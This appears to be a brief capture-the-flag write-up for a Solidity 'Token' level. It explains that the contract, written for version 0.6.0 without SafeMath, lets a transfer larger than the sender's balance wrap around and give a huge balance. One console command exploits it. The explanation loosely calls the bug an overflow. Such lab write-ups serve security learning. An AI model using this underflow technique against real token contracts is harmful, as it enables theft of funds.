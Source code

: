 # Token

## Description

The issue with this smart contract is overflowing. If you notice, its version
is 0.6.0 and SafeMath isn't being used. Because the balances are `uint`, we just
need to give it a value 1 unit bigger than whatever we have to get the maximum
amount of tokens.

## Command Sequence

```
> await contract.transfer("0x0000000000000000000000000000000000000000", 21)
get maximum amount of tokens
```
